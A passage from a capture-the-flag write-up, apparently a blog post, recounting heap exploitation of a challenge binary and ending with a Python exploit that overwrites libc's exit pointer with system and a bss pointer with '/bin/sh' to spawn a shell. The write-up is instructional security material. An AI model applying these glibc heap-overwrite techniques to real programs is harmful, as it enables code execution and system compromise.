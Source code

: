 From now on , things seeemed clear but turned out they weren't.

1. File structure overwrite , but one_gadget constraints were not satisfying anywhere.
2. Tried overwriting **malloc hook** and again one_gadget constraints were not satisfying.

At this point , I was super frustrated , and then gave a thought , and **exit pointer** came to my mind like lightning.

So overwrote exit pointer with one_gadget , but there also the constraints were very stubborn.

There I observed something , when there was a call to exit_pointer , rdi was set to a libc bss address but it was very far from exit pointer's address.

Then I tried doing 2 overwrites ,

1. Overwrite **exit\_pointer** with **system**.
2. Overwrite libc bss pointer with "/bin/sh".

And it worked!!!

```py

    target = libc_base + 0x218968 #rdi was set to this address
    gdb.attach(io)
    add(0x200,'a')
    add(0x200,p64(libc_base + LIBC.symbols['_IO_2_1_stdin_']) + p64(0) + p64(offset_new-2))
    add(0x200,p64(0))
    do_work(offset_new+4)
    add(0x200,'a')
    allocated_count_new2 = heap_base + 0xfb1
    do_work(allocated_count_new2 - offset_new)
    add(0x200,p64(target))
    add(0x200,'a'*8)
    add(0x200,'/bin/sh\x00')  #Get allocation on libc bss and overwrite rdi pointer to /bin/sh
    do_work(offset_new+3+4)
    add(0x200,'a')
    allocated_count_new3 = heap_base + 0x13d1
    do_work(allocated_count_new3-(offset_new))
    exit_ptr = libc_base + 0x218f68
    add(0x200,p64(exit_ptr))
    add(0x200,'a')
    add(0x200,p64(system))  #Get allocation on exit pointer and overwrite it with system
    exit()                  #Finally call exit and trigger shell
    io.interactive()
```

## CONCLUSION

It was a really nice challenge and I had a lot of fun solving it.

Here's the [script](https://gist.github.com/PwnVerse/c7dc7f14dcc5cf8b044705c2037559f1)

